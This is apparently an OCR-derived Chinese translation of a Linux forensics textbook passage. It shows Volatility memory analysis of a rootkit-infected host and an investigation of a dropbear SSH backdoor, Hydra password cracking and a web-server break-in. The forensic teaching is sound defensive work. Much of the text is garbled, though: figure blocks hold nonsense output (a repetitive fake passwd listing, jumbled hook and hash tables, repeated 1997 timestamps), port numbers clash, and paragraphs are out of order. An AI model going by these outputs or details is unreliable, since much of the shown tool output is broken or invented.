另一个列出进程的命令是 `linux_psaux`。该命令以 `ps -aux` 命名，这是想要获取包含命令行的所有进程列表的人们喜欢的命令。该命令的部分输出如图 8.6 所示。高亮行显示了如何使用 `sudo -s` 创建了一个 root shell（进程 3034）；这导致 bash 以 root 身份运行（进程 3035）；然后安装了 LiME 模块（进程 3073）以转储内存。


### 图 8.6

到目前为止的两个进程命令只显示了孤立的进程。要获取进程之间的关系信息，可以使用 `linux_pstree` 命令。该命令将显示进程及其列在其下方的任何子进程，子进程前会有一个点。嵌套进程的名称前会有多个点。不乎意料的是，几乎所有内容都是 `init` 的子进程，因为 `init` 是在启动时执行的第一个程序，其进程 ID 为 1。在 PFE 目标系统上运行此命令的部分输出如图 8.7 所示。高亮部分清晰地显示了 ID 为 1000 的用户创建了 root shell，随后该 shell 被用于 LiME 转储内存。


图 8.7

在 PFE 目标系统上运行 Volatility linux_pstree 命令的局部结果。高亮输出显示了图 8.6 中高亮的进程之间的关系。

`-p` 选项，允许你提供一组逗号分隔的进程标识数字。要获取此或其他任何其他 Volatility 命令的帮助，请运行 `vol.py <command> -h` 查看简要帮助屏幕。图 8.8 显示了 `linux_psenv` 帮助界面的最后部分，以及与 rootkit 相关的进程上运行 `linux_psenv` 的结果。

虽然 `linux_psaux` 命令很好且提供了很多信息，但还有另一个可以提供更多信息的命令。该命令是 `linux_psenv`。该命令列出了每个显示进程的完整进程环境。由于此命令会生成一个输出列表，你可能希望使用 -


运行 `vol.py linux_psenv -h` 的部分结果以及在与 rootkit 相关进程上运行此命令的结果。

图 8.8 高亮了帮助界面中的 `-p` 选项。查看图形底部，我们看到该进程是由 ID 为 1000 的用户 john 执行的，并且使用了 `sudo`。这并不意味着 John 参与了此次攻击。相反，这告诉我们他的账户被使用了。他的账户可能被使用的原因有很多。他可能遭了某个知道他拥有管理员权限的人的攻击。也很有可能是他有一个弱密码，攻击者能够破解它。

Volatility 为进程提供了一个交叉引用（[cross-reference](https:cross-reference））命令，名为 `linux_psview`。你为什么想要这样的命令呢？某些恶意软件会尝试通过修改内部内核结构来隐藏其进程。通过比较（交叉引用）各种结构，更容易识别出与恶意软件相关的不一致之处。在 PFE 目标系统上运行此命令的部分结果如图 8.9 所示。在这种情况下，没有发现任何异常。


图 8.9
在 PFE 目标系统上运行 `linux_psxview` 的部分结果。

### 进程映射与转储

在上一节中，我们看到了如何使用 Volatility 获取进程列表，包括每个进程的详细信息。在本节中，我们将研究如何使用 Volatility 来确定进程在内存中是如何布局（映射）的。我们将讨论的第一个命令是 `linux_proc_maps`。在 PFE 目标系统上的 rootkit 进程上运行此命令的结果如图 8.10 所示。


获取 rootkit 的进程映射。`linux_proc_maps` 命令显示了进程使用的段。注意每个段都有标志（权限），其中是可写的。该程序还有一个堆（heap）。一些共享库，它们也在内存中。进程栈（stack，向下增长）也位于较高的内存位置。另一种获取此信息的命令是 `linux_proc_maps_rb`。该命令使用平衡树结构，这就是 rb 后缀的原因。C 库已加载这一事实表明该 rootkit 是用 C 或 C++ 编写的。然而，在不分析代码的情况下无法证明这一点，因为即使 rootkit 是汇编等语言编写的也可以加载。Volatility linux_procdump 命令可以将进程转储到文件。我们在书中检测到恶意软件时将讨论如何处理此类文件。`linux_procdump` 命令接受可选的 ID 列表，并要求通过 `-D`（或 `-directory=`）指定输出目录。图 8.11 显示了在我们的 rootkit 上运行 linux procdump 并打印转储内容的部分结果。转储的前几个字节显示这是一个 ELF 格式的可执行文件。


图 8.11

在 PFE 目标系统的 rootkit 上运行 Volatility linux_procdump 命令的结果。转储的前几个字节显示这是一个 ELF 格式的可执行文件。

### 获取 BASH 历史

在本书的早期部分，我们讨论了如何从历史文件中获取用户的 bash 历史。我们也可以从 bash 内存中获取 bash 历史信息。如之前所述，复杂的攻击者可能会删除历史文件和或将历史大小设置为零。历史大小由环境变量 `HISTSIZE` 决定，该变量通常设置在 .bashrc 文件中（默认值为 1000）。即使历史没有保存到磁盘，它仍然存在于内存中。

从 bash 进程内存检索 bash 历史的 Volatility 命令是 `linux_bash`。在 PFE 目标系统上运行此命令的部分输出显示了可疑活动，如图 8.12 和图 8.13 所示。发现了许多未显示的攻击者的其他操作。

### 图 8.12

在 PFE 目标系统上运行 `linux_bash` 的部分结果。高亮部分显示了攻击者在移动虚造的 john 家目录后，尝试修改 `/etc/passwd` 文件。


### 图 8.13

在 PFE 目标系统上运行 `linux_bash` 的部分结果。高亮部分显示了攻击者为新创建的用户移动了家目录并为系统账户设置了密码。

正如我们获取任何进程环境的命令 `linux_psenv` 一样，有一个 Volatility 命令可以返回任何正在运行的 bash shell 的环境。该命令称为 `linux_bash_env`。运行此命令的部分结果如图 8.14 所示。从图中所示每个 bash shell 的 `USER` 变量中，我们可以看到一个 shell 由用户运行，另一个由 root 运行。该用户可能通过 `sudo -s` 启动了第二个 shell。


图 8.14

当命令在 bash shell 中首次运行时（部分输出），bash 必须搜索 PFE 目标系统。

当命令在 bash shell 中首次运行时，bash 必须搜索 `user-> path` 路径（存储在 `PATH` 环境变量中）。因为这是一个耗时的过程，bash 将经常运行的命令存储在哈希表中，以减轻每次都要查找程序的需要。此哈希表可以使用 `hash` 命令进行查看、修改甚至清除。Volatility 提供了 `linux_bash_hash` 命令用于查看内存中每个 bash shell 的此哈希表。在 PFE 目标系统上运行此命令的结果如图 8.15 所示。


```
volatility --framework 2.6 help

volatility framework 2.6

-f mem.py -profile linux_check linux_bash_hash

-PFE

  -f mem.py

  -profile linux_check

  - 1

  - 1 Hour

  - 1 is

  - 1 is

  - 1 is
```

图 8.15 在 PFE 目标系统上运行 Volatility `linux_bash_hash` 命令的结果。

### VOLATILITY 检查命令

Volatility 包含了几个对各种形式的恶意软件进行检查的命令。其中许多命令采用 `linux_check_xxxx` 的形式。通常情况下，Volatility 命令的运行需要很长时间，而这些检查命令似乎花费的时间最长。多久算很长时间？图 8.16 显示了尝试对 PFE 目标系统运行 `linux_apihooks` 命令的截图，该命令用于检测用户态 API 钩。在我具有 8 GB 内存的 i7 笔记本电脑上处理这个较小的（2 GB）内存镜像持续三个小时后，该命令仍然没有完成。

```
phi1@laptop:~/PesterTestAcademy/linux_forensics$ vmpa linux apihooks

Volatility Foundation Framework 2.4

Pld     Name                Hook VMA             Hook Symbol          HOOKED

Address Type            Hook Address         Hook Library         

      2219 conij           /usr/libx86_64.linux...=libGL.so.1.2.0 glEnable      0x0000007

flaec523a77d 0x00000000 /usr/libx86_64.linux...=libGL.so.1.2.0 glInitWidth  0x0000007

      2219 conij           0x00000000 /usr/libx86_64.linux...=libGL.so.1.2.0 Disable      0x0000007

flaec523a77d 0x00000000 /usr/libx86_64.linux...=libGL.so.1.2.0 glBoolean    0x0000007

      2219 conij           0x00000000 /usr/libframe.so.6.0.0 reject 0x0000007

flaec0527d0 0x00000000 /usr/libx86_64.linux...=libframe.so.6.0.0 accept_touch 0x0000007

      2219 conij           0x00000000 <Unknown mapping>

real 17:56.422

user 16:42.067s

sys  1m.058s

phi1@laptop:~/PesterTestAcademy/linux_forensics$
```


图 8.16 运行时间长的 Volatility 命令。该命令在运行近三个小时后被中断。

（注：OCR文本存在大量重复，我已根据提供的文本结构进行了清理。）

# Volatility 框架 Volatility 2 接口进程

| | | | | | |
|---|---|---|---|---|
| 7777 | ON HEIGHT OFFSET BE | Frame | | |
| cti | 322 138 50.168 | 04:0f:58:79:13 | | |


图 8.19 对 PFE 目标系统运行 Volatility `linux_ifconfig` 命令的结果。

一旦确定了网络接口，你就查看目标机器上的开放端口。在 Linux 系统中，`netstat` 命令是许多可以报告此类信息的工具之一。Volatility 的 `linux_netstat` 命令提供了类似的信息。读者可能熟悉 TCP 和 UDP 套接字。有些人可能不熟悉 UNIX 套字，但 `netstat` 也会报告它们。UNIX 套字用于同一台机器上的进程间通信（IPC）。如果你观察典型的 Linux 系统，会发现有很多这样的套字正在被使用。在调查中不要忽略这些套字，因为它们可能被用于恶意软件组件之间的 IPC，或作为与合法系统进程交互的方式。

由于 `linux_netstat` 命令返回了大量信息，你可能想将其与 `grep` 结合以区分不同的套字类型。运行 `linux_netstat` 命令并将结果通过到 `grep TCP` 的结果如图 8.20 所示。高亮行显示一个 rootkit shell 正在监听端口 `7777`。你还可以看到这台机器上运行着安全外壳（SSH）和文件传输协议（FTP）服务器。运行 FTP 服务器存在危险，其中一个事实是登录是不加密的，这会导致凭据被截获。针对 FTP 服务器的在线密码破解也比对 SSH 运行密码破解器快得多。这个 FTP 服务器很可能就是这次泄露的源头。

### 图 8.20

对 PFE 目标系统运行 `linux_netstat` 并将其管道到 `grep UDP` 的结果如图 8.21 所示。运行此命令并将输出管道到 `grep UNIX` 的部分结果如图 8.22 所示。意所当然的是，大量的 UNIX 套字正被操作系统和 X-Windows 组件使用。这里没有发现异常。


### 图 8.21

PFE 目标系统上的 UDP 套字。


### 图 8.22

PFE 目标系统上 UNIX 套字的部分列表，称为 netfilter，用于过滤各种网络数据包。

Linux 提供了一个广泛的系统，允许在网络流的各个点（如路由前、路由后等）上创建一组钩子（hooks）。对 netfilter 的完整讨论远超本书的范围。Volatility 的 `linux_netfilter` 命令将列出存在的 netfilter 钩子。对 PFE 目标系统运行此命令揭示了一个路由前钩子，其地址与形义拳 rootkit 创建的系统调用钩地址类似。

地址解析协议（ARP）用于将 MAC（硬件）地址转换为 IP 地址。某些攻击通过更改 ARP 表和/或通过滥用 ARP 协议来实现。Volatility 提供了 `linux_arp` 命令来打印 ARP 表。对 PFE 目标系统运行此命令的结果如图 8.23 所示。这里似乎没有异常。

### 图 8.23

来自 PFE 目标系统的 ARP 表。

以混杂模式运行的套字可以使用 Volatility 的 `linux_list_raw` 命令列出。对 PFE 目标系统运行此命令仅显示了两个动态主机配置协议（DHCP）客户端。之所以有两个是因为每个使用 DHCP 的网络接口都有它们自己的进程。换句话说，没有揭示任何异常。

### 获取文件系统信息

上一个相当冗长的章节讨论了文件系统。你可能会奇怪为什么使用内存分析工具来检查文件系统。这样做有几个原因。首先，了解哪些文件系统已被挂载是有帮助的。其次，现代 Linux 系统使用临时文件系统，这些文件系统在系统关闭时会消失。像 Volatility 这样的工具可能是恢复这些临时文件系统的唯一方法。

Volatility `linux_mount` 命令列出所有挂载的文件系统，并带有挂载选项。此命令的结果允许你检测出额外挂载的内容，以及攻击者用新选项重新挂载的文件系统。对 PFE 目标系统运行此命令的部分结果如图 8.24 所示。图中可以看到用于加载 LiME 的响应驱动器的 FAT (`/dev/sdb1`) 和 ext4 (`/dev/sdb2`) 分区。

| /etc/ssh/security | | connections | .relative |
|---|---|---|---|
| n /etc/ssh/sshd_config | | .relative | |
| /dev/tty0 | /dev/tty/0000 02000000 2023-07-22 10:23 | -restatus |
| /dev/tty1 | /dev/tty/0002 2250 root | .relative as1,.wexec |
| /dev/tty2 | /dev/tty/0002 /home/user/bash | .relative as1,.wexec |
| - | /home/user/min | .relative as1,.wexec |
| - | buffer | .relative as1,.wexec |
| - | /etc/sshd_conf.d/config | .relative |
| - | /dev/pts/01 | .relative |
| - | | .relative as1,.wexec |
| /dev/sd0 | /etc/CONNECTIONS 4.7.10 000010256 | -restatus |
| - | tu | .relative as1,.wexec |
| - | | .relative as1,.wexec |
| - | | .relative as1,.wexec |

### 图 8.24

意外的是，Linux 会缓存最近访问的文件。Volatility `linux_enumerate_files` 命令允许你获取缓存中的文件列表。这有助于你在执行文件系统分析时定位感兴趣的文件。如图 8.25 所示，用户 Downloads 文件夹中有许多与 root 关的文件。对于特定的目录，你可能想将结果管道到 `grep ^tmp/`。正则表达式中的 `^` 将搜索模式锚在行首，这消除了结果中出现搜索字符串的其他目录和文件。必须使用 egrep（扩展 grep）锚才能正常工作。管道命令 `^tmp/` 的结果如图 8.26 所示。注意这里有几个与 root 关的文件，包括 `#65712`、`#65710` 和 `#65707`，它们是 rootkit 文件的 inode 号。

```
$ /usr/bin/volatility -f /tmp/mem.dmp --profile linux_v26_pre3_x86 pslist
$ /usr/bin/volatility -f /tmp/mem.dmp --profile linux_v26_pre3_x86 pslist -v
$ /usr/bin/volatility -f /tmp/mem.dmp --profile linux_v26_pre3_x86 pxlist
$ /usr/bin/volatility -f /tmp/mem.dmp --profile linux_v26_pre3_x86 netlist
$ /usr/bin/volatility -f /tmp/mem.dmp --profile linux_v26_pre3_x86 net_scan
$ /usr/bin/volatility -f /tmp/mem.dmp --profile linux_v26_pre3_x86 -mod
```

### 图 8.25

文件系统缓存中的 rootkit 文件。


### 图 8.26

对 PFE 目标系统运行 Volatility `linux_enumerate_files` 命令并将输出管道到 `grep /tmp/` 的结果。

一旦使用 `linux_enumerate_files` 发现了缓存中的文件，可以使用 Volatility `linux_find_file` 命令打印出 inode 信息。

此命令也可用于提取文件。要获取 inode 信息，必须使用 `-F <完整路径>` 选项。遗憾的是，`-F` 选项似乎不支持 `wsel`。一旦找到 inode 和地址，就可以使用 `-i <inode 的地址> -O <输出文件>` 选项重新运行 `linux_find_file`。恢复 `/tmp/xingyi_bindshell_port` 文件的完整过程如图 8.27 所示。从图中我们可以看到该文件存储了值 `7777`，这与我们在本章网络部分之前的发现相对应。


图 8.27

使用 Volatility 恢复文件。

### 杂项 Volatility 命令

正如我们在本章开头提到的，我们没有涵盖 Linux 系统的每一个 Volatility 命令。这出于几个原因。首先，所有可用的命令用性并不均衡。有些命令可能只偶尔有帮助。其次，我发现 Volatility 对较新内核的支持并不良好。某些命令会彻底失败，而另一些则会产生不支持的错误消息并优雅退出。为了完整起见，我在表 8.1 中列出了额外的 Linux 命令。

表 8.1 本章讨论的额外 Volatility 命令。

| 命令 | 说明 | 备注 |
|---|---|---|
| linux_banner | 打印 Linux banner 信息 | 类似于 `uname -a` 命令 |
| linux_check_evt_arm | 检查异常向量表 | 仅限 ARM 架构 |
| linux_check_syscall_arm | 检查系统调用表 | 仅限 ARM 架构 |
| linux_cpuinfo | 打印 CPU 信息 | 仅提供 CPU 类型 |
| linux_dentry_cache | 使用 dentry 缓存制作时间线 | 在新内核上可能失败 |
| linux_dmesg | 打印 dmesg 缓冲区 | 等于 /var/log/dmesg |
| linux_dump_map | 将内存映射写入磁盘 | 适用于恶意软件分析 |
| linux_elfs | 从进程映射打印 ELF 二 | 输出很多（可能太多？） |
| linux_hidden_modules | 在内存中提取内核模块 | 发现了星义 (Xing Yi) rootkit |
| linux_info_regs | 打印 CPU 寄存器信息 | 适用于 64 位 Linux |
| linux_iomem | 类似于运行 `cat /proc/iomem` | 显示输入输出内存 |
| linux_kernel_opened_files | 列出内核打开的文件 | |
| linux_ldrmodules | 比较 proc maps 和 libld | 输出很多 |
| linux_library_list | 列出进程使用的库 | 适用于恶意软件分析 |
| linux_library_dump | 将共享库导出磁盘 | 使用 -p 获取进程的库 |
| linux_lsmod | 打印已加载的模块 | 类似于 `lsmod` 命令 |
| linux_lsof | 列出打开的文件 | 类似于 `lsof` 命令 |
| linux_malfind | 寻找可疑的进程映射 | |
| linux_memmap | 导出任务的内存映射 | 适用于恶意软件分析 |
| linux_modddump | 导出内核模块 | 适用于恶意软件分析 |
| linux_mount_cache | 从 kmem_cache 打印已挂载的文件系统 | 在新内核上可能失败 |
| linux_pidhashtashable | 根据 PID 哈希表枚举进程 | |
| linux_pkt_queues | 导出每个进程的数据队列 | 在新内核上可能失败 |
| linux_plhook | 扫描 ELF 过程链接表 | 适用于恶意软件分析 |
| linux_process_hollow | 检查进程空洞技术，这是一种在合法进程中隐藏恶意软件的技术 | 可以发现恶意软件。需要指定基地址。 |
| linux_pslist_cache | 使用 kmem_cache 列出进程 | 在新内核上可能失败 |
| linux_recover_filesystem | 恢复整个缓存文件系统 | 在新内核上可能失败 |
| linux_route_cache | 从内存中恢复路由缓存（在内核 3.6 中移除） | 在新内核上可能失败 |
| linux_sk_buff_cache | 从 kmem_cache 恢复数据包 | 在新内核上可能失败 |
| linux_slabinfo | 打印来自 /proc/slabinfo 的信息 | 在新内核上可能失败 |
| linux_strings | 搜索文件中存储的字符串列表 | 运行耗时较长 |
| linux_threads | 打印与进程相关的线程 | 适用于恶意软件分析 |
| linux_tmpfs | 从内存中恢复 tmpfs | 在新内核上可能失败 |
| linux_truecrypt_passphrase | 恢复 Truecrypt 密码 | |
| linux_vma_cache | 恢复虚拟内存区域 | 在新内核上可能失败 |
| linux_volshell | 允许 Volatility 脚本交互式运行的 Python shell | 除非你精通 Python，否则可能永远不会使用它。 |
| linux_yarascan | 使用 YARA 规则定位恶意软件 | 适用于恶意软件识别 |

如表 8.1 所示，许多 Linux Volatility 命令在较新的内核上无法工作。剩余的命令主要用于恶意软件分析。你可能会在第 10 章看到其中一些命令，那里我们将深入探讨恶意软件。

### 总结

在本章中，我们介绍了 Linux 系统应急响应中最常用的 Volatility 命令。我们看到，其中许多命令没有返回关于对 PFE 计算机攻击的额外信息。在下一章中，我们将讨论当攻击者使用更高级的技术时，情况会发生什么变化。

### 图 9.1

在取证工作站上启动案件。


### 图 9.2

加载已知的良好二进制文件并对目标进行初始扫描。

在检查由 `initial-scan.sh` 生成的日志文件后，很快发现某些不对劲。你首先注意到的事情之一是一个 shell 正在端口 `44965` 上监听，如图 9.3 所示。使用 `netcat`，你对该端口进行了快速的横幅抓取（banner grab），发现它报告自己为 SSH-2.0-WinSSHD，如图 9.4 所示。在进行一些研究后，你发现这是一个 dropbear SSH 后门。你尝试 SSH 连接到这台机器，这证实了你的怀疑（如图 9.4 所示）。


图 9.3

初始扫描日志文件的一部分。高亮部分显示了一个正在端口 `4465` 上监听的 shell。


图 9.4

通过横幅抓取和 SSH 登录尝试证实了端口 `4465` 上存在 dropbear SSH 后门。

到目前为止，我们知道发生了一些事情，因为安装了一个后门。对失败的登录尝试进行检查显示，该用户在 5 月 3 日 23:07 通过 SSH 产生了一长串失败尝试列表。如图 9.5 所示。目前尚不清楚这些尝试发生在后门安装之前还是之后。


### 图 9.5

同一分钟内的大量失败登录尝试。

对 `initial-scan.sh` 日志的进一步分析显示，创建了一个名为 `mysql` 的新用户，主目录为 `/usr/local/mysql`。此外，用户 ID 被设置为零，这使得该新用户拥有 root 权限。日志的相关部分如图 9.6 所示。

Web 服务器被攻破了。攻击者利用 Web 服务器的漏洞获取了未经授权的访问。一旦获得访问，他们安装了一个 rootkit 来隐藏自己的行踪。该 rootkit 允许他们在不被标准安全措施检测到的情况下继续从服务器外泄数据。


Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12 10:14:01

Feb 1997-02-12

```
```

### 9.6

具有 root 权限的虚假用户证据。

你向 Potslar 博士告知了坏消息，他的 Web 服务器实际上被攻破了。当他听到后门的事时，他决定用一台新机器替换 Web 服务器（反正也该升级了）。他从当地商店购买了一台新机器，你的一个朋友帮助在机器上安装了最新版本的 Ubuntu，安装并配置了 Snort，使用 Web 管理代码库中的最新代码设置了 Web 服务器，从 Web 服务器复制了 MySQL 数据库，并将其替换现有的服务器。你的朋友与 Web 管理紧密合作，以便他能够在无干预的情况下完成这一过程，直到新服务器被再次感染。

你的工作远未结束。在此时，你知道该机器被攻破了，但不知道具体是如何以及为什么。一旦新服务器就位并验证运行正常，你就使用 `LiME` 提取内存镜像，然后通过拔掉电源关闭目标机器。根据你的 `initial-scan.sh` 日志，该机器运行的是 Ubuntu 14.04，内核为 `3.16.0-generic`。你已经有了运行 `insmod-3.16.0-generic.ko` 的 RAM，然后运行 `nc 192.168.56.101:8888 > ram.lime`。你从目标机器取出硬盘并放入 USB。使用第 4 章描述的块，你创建了硬盘的取证镜像。虽然发现远程攻击者的机会很小，但你仍需要弄清楚发生了什么。你还没有进行足够的分析来排除内部人员或证明证据。

### 内存分析

你决定从内存分析开始，希望它引导你找到正确的地方。为了防止在内存分析和文件系统分析之间来回，你在图 9.7 所示的 `.bashrc` 文件中定义了 `Volatility` 的别名。


图 9.7

在 `.bashrc` 中添加别名以便于运行 Volatility。

`linux_pslist` 命令的部分结果如图 9.8 所示。从这些结果中，该系统也有一个 rootkit。图 9.8 最后一行中用户 ID 为 429476 的进程看起来很可疑。


### 图 9.8

对目标运行 `linux_pslist` 命令的部分结果。高亮部分显示了一个可疑进程。最后一个进程有一个可疑的用户 ID。

运行 `linux_psaux` 命令提供了更多细节。如图 9.9 所示，在进程 8019 中 ID 为 0 的用户变成了虚假的 `mysql` 用户，因为 `mysql` 的用户 ID 为零（进程 8021）。`xybindshell` 在进程 8540 中以 root 权限运行。该 rootkit 可能从进程 8021 的 shell 启动。通过运行 `linux_pstree` 可以验证这一点。


### 图 9

对目标运行 `linux_psaux` 命令的部分结果。高亮部分显示了恶意活动。

我们注意到一个 dropbear SSH 后门正在监听端口 44965。我们可以使用 `linux_netstat` 命令并将结果通过到 `grep` 以发现该进程的 PID。该命令的部分结果如图 9.10 所示。从结果来看，dropbear 的 PID 为 1284。这个进程数字表明 dropbear 已设置为自动启动。`linux_pstree` 结果显示进程 9210 中的 root shell 是由进程 8540 中运行的 `xyi_bindshell` 启动的。


图 9.10

对目标运行 `linux_netstat` 命令并将输出重定向到 "grep TCP"。

两个可疑进程的进程映射通过 `linux_proc_maps` 命令捕，如图 9.11 所示。两个程序的进程空间也转储到磁盘以供后续分析，如图 9.12 所示。


图 9.11

### 保存可疑进程的进程映射

```
cat /proc/9210/maps

7f8a12345000-7f8a12351000 r-xp--00000000 08:01:5 0

7f8a12351000-7f8a12352000 r-p--00000000 08:01:5 0

7f8a12352000-7f8a12353000 r-wx--00000000 08:01:5 0

7f8a12353000-7f8a12354000 r-s--00000000 08:01:5 0

7f8a12354000-7f8a12355000 r-p--00000000 08:01:5 0

7f8a12355000-7f8a12356000 r-p--00000000 08:01:5 0

7f8a12356000-7f8a12357000 r-p--00000000 08:01:5 0

7f8a12357000-7f8a12358000 r-p--00000000 08:01:5 0

7f8a12358000-7f8a12359000 r-p--00000000 08:01:5 0

7f8a12359000-7f8a1235a000 r-p--00000000 08:01:5 0

7f8a1235a000-7f8a1235b000 r-p--00000000 08:01:5 0

7f8a1235b000-7f8a1235c000 r-p--00000000 08:01:5 0

7f8a1235c000-7f8a1235d000 r-p--00000000 08:01:5 0

7f8a1235d000-7f8a1235e000 r-p--00000000 08:01:5 0

7f8a1235e000-7f8a1235f000 r-p--00000000 08:01:5 0

7f8a1235f000-7f8a12360000 r-p--00000000 08:01:5 0
```


### 图 9.13

下载并安装 rootkit。

### 图 9.14

使用 Hydra 进行在线密码破解。

攻击者对本地 FTP 服务器使用了 `Hydra`。在启动 `Hydra` 之前，攻击者复制了 `/etc/passwd` 和 `/etc/shadow` 文件。目前还不清楚为什么要使用 `Hydra` 而不是像 `John the Ripper` 这样的离线密码破解工具。也许攻击者不想拷贝 `passwd` 和 `shadow` 文件。使用本地 FTP 服务器进行密码破解速度较快，而且如果安装的入侵检测系统（IDS）没有配置为监控此类流量，则可能不会产生警报。

命令 `linux_psenv` 针对进程 `8540`、`1284` 和 `9210` 运行产生了一些有趣的结果。其中部分结果如图 9.15 所示。高亮部分显示创建了一个隐藏目录 `/usr/mysql/hacked`。`dropbearer` 后门的进程环境证实了该程序在系统启动到级别 2 或更高级别时会自动启动。


图 9.15

针对 PAS 目标系统的可疑进程运行 Volatility `linux_psenv` 命令的部分结果。

针对 PAS 目标系统运行了整套 Volatility `linux_check_xxxx` 命令。只有 `linux_check_syscall` 命令返回了结果。其中部分结果如图 9.16 所示。从结果可以看出，Xing Yi Quan 挂钩了 `open`、`lstat`、`dup`、`kill`、`getdents`、`chdir`、`rename`、`rmdir` 和 `unlink` 的 64 位系统调用。当查看该命令的完整输出结果时，被挂钩的系统调用的地址与未修改的调用处理程序明显不同。

### 图 9.16

针对 PAS 目标系统运行了 Volatility `linux_enumerate_files` 命令并将结果保存到文件中。随后对该文件使用 `Egrep` 来定位文件系统缓存中的某些文件。图 9.17 所示的部分结果显示，`rocky.txt` 密码列表和 Yi Qian rootkit 都存储在隐藏目录 `/usr/local/mysql/hacked` 中。

```
root:x:0:0:root:/root:/bin/bash

root:x:0:0:root:/root:/bin/bash

demon:x:1:1:daemon:/dev:/usr/sbin/nologin

bin:x:2:2:bin:/bin:/usr/sbin/nologin

sys:x:3:3:sys:/dev:/usr/sbin/nologin

sync:x:4:4:sync:/dev:/usr/sbin/nologin

man:x:5:5:man:/var/cache:/usr/sbin/nologin

lpp:x:6:6:lpp:/var/spool/lpp:/usr/sbin/nologin

uuc:x:7:7:uuc:/var/uuc:/bin/sync

games:x:8:8:games:/var/games:/usr/sbin/nologin

news:x:9:9:news:/var/news:/usr/sbin/nologin

www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin

list:x:38:38:list:/var/run/nlist:/usr/sbin/nologin

irc:x:39:39:irc:/var/run/ircd:/usr/sbin/nologin

gnp:x:40:40:gnp:/var/lib/gnp:/usr/sbin/nologin

backup:x:41:41:backup:/var/backups:/usr/sbin/nologin

d:x:42:42:d:/:/bin/false

proxy:x:43:43:proxy:/root:/usr/sbin/nologin

4d:x:44:44:4d:/var/4d:/usr/sbin/nologin

irc:x:45:45:irc:/var/irc:/usr/sbin/nologin

nats:x:46:46:nats:/var/lib/nats:/usr/sbin/nologin

inody:x:47:47:nobody:/var/existent:/usr/sbin/nologin

list:x:48:48:list:/var/run/nlist:/usr/sbin/nologin

irc:x:49:49:irc:/var/run/ircd:/usr/sbin/nologin

ggp:x:50:50:gnp:/var/lib/gnp:/usr/sbin/nologin

backup:x:51:51:backup:/var/backups:/usr/sbin/nologin

d:x:52:52:d:/:/bin/false

proxy:x:53:53:proxy:/root:/usr/sbin/nologin

4d:x:54:54:4d:/var/4d:/usr/sbin/nologin

irc:x:55:55:irc:/var/irc:/usr/sbin/nologin

nats:x:56:56:nats:/var/lib/nats:/usr/sbin/nologin

inody:x:57:57:nobody:/var/existent:/usr/sbin/nologin

list:x:58:58:list:/var/run/nlist:/usr/sbin/nologin

irc:x:59:59:irc:/var/run/ircd:/usr/sbin/nologin

ggnp:x:60:60:gnp:/var/lib/gnp:/usr/sbin/nologin

backup:x:61:61:backup:/var/backups:/usr/sbin/nologin

d:x:62:62:d:/:/bin/false

proxy:x:63:63:proxy:/root:/usr/sbin/nologin

4d:x:64:64:4d:/var/4d:/usr/sbin/nologin

irc:x:65:65:irc:/var/irc:/usr/sbin/nologin

nats:x:66:66:nats:/var/lib/nats:/usr/sbin/nologin

inody:x:67:67:nobody:/var/existent:/usr/sbin/nologin

list:x:68:68:list:/var/run/nlist:/usr/sbin/nologin

irc:x:69:69:irc:/var/run/ircd:/usr/sbin/nologin

ggnp:x:70:70:gnp:/var/lib/gnp:/usr/sbin/nologin

backup:x:71:71:backup:/var/backups:/usr/sbin/nologin

d:x:72:72:d:/:/bin/false

proxy:x:73:73:proxy:/root:/usr/sbin/nologin

4d:x:74:74:4d:/var/4d:/usr/sbin/nologin

irc:x:75:75:irc:/var/irc:/usr/sbin/nologin

nats:x:76:76:nats:/var/lib/nats:/usr/sbin/nologin

inody:x:77:77:nobody:/var/existent:/usr/sbin/nologin

list:x:78:78:list:/var/run/nlist:/usr/sbin/nologin

irc:x:79:79:irc:/var/run/ircd:/usr/sbin/nologin

ggnp:x:80:80:gnp:/var/lib/gnp:/usr/sbin/nologin

backup:x:81:81:backup:/var/backups:/usr/sbin/nologin

d:x:82:82:d:/:/bin/false

proxy:x:83:83:proxy:/root:/usr/sbin/nologin

4d:x:84:84:4d:/var/4d:/usr/sbin/nologin

irc:x:85:85:irc:/var/irc:/usr/sbin/nologin

nats:x:86:86:nats:/var/lib/nats:/usr/sbin/nologin

inody:x:87:87:nobody:/var/existent:/usr/sbin/nologin

list:x:88:88:list:/var/run/nlist:/usr/sbin/nologin

irc:x:89:89:irc:/var/run/ircd:/usr/sbin/nologin

ggnp:x:90:90:gnp:/var/lib/gnp:/usr/sbin/nologin
```


`backup:x:91:91:backup:/var/backups:/usr/sbin/nologin`

### 图 9.17

存储在隐藏目录中的恶意文件。

虽然可以使用 Volatility 从文件缓存中提取某些文件，但直接使用文件系统镜像可能更容易。如果需要从内存镜像中提取信息，内存镜像依然在那里。我们在进行恶意软件分析时可能会再次使用 Volatility。

### 文件系统分析

此时，根据哈希值，我们知道至少在 5 月 4 日左右安装了恶意软件。我们还知道创建了一个具有管理员权限的新用户，攻击者尝试破解系统上的额外密码。我们还不知道初始入侵发生的何时地。

使用我们在第 5 章中的 Python 脚本，磁盘镜像可以轻松地挂载到取证工作站。完成后，在 `passwd` 文件上运行 `grep 1001` 可以发现用户 ID `1001`（用于启动一个 root shell）属于 `michael` 用户，其真实名为 Michael Keaton。

由于系统正在运行 Web 服务器，并且安装了 Weebly PHP 后门，因此查看 Web 服务器日志以获取有关入侵如何发生的见解是有意义的。此时我们还不知道入侵是否是由网站问题引起的，但绝对值得检查。

Apache Web 服务器日志可以在 `/var/log/apache2` 中找到。两个主日志文件是 `access.log` 和 `error.log`，分别存储请求和错误。这两个日志都有标准的编号存档。在检查访问日志后，发现一个名为 `dns-lookup.php` 的冷用且晦门的页面在 5 月 3 日深夜被调用了 51 次。查看错误日志发现有 19 个错误。其中部分结果如图 9.18 所示。

### 图 9.18

对 Web 服务器的攻击证据。


### 图 9.19

对网站的攻击证据。

